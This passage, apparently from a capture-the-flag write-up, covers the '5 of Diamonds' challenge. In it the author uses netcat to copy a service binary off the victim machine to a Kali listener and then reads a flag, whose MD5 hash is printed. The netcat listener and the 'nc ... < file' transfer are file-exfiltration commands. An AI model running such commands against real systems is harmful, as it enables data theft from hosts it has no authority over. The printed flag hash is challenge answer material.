

## 5 of Diamonds

Among services running on the victim machine, one is listening on local port 8989, the service name is "five_of_diamonds" located in the /opt/knock_knock/ folder.
Trying to investigate more with nc or wget give us some trouble so, downloading it for further investigation, probably can helps.

To do so we need nc

on the kali box we run
```
nc -lvp 6666 > five_of_diamonds
```
in the meantime on the victim machine

```
nc 10.0.1.209 6666 < five_of_diamonds
```

once the binary is downloaded we can run it locally for further analysis.

The service is listening on the port 8989 as expected. Browsing to 127.0.0.1:8989 bring us to a juicy flag



```
MD5 = 97bf04578c58062c1440f17668f6017b  

```


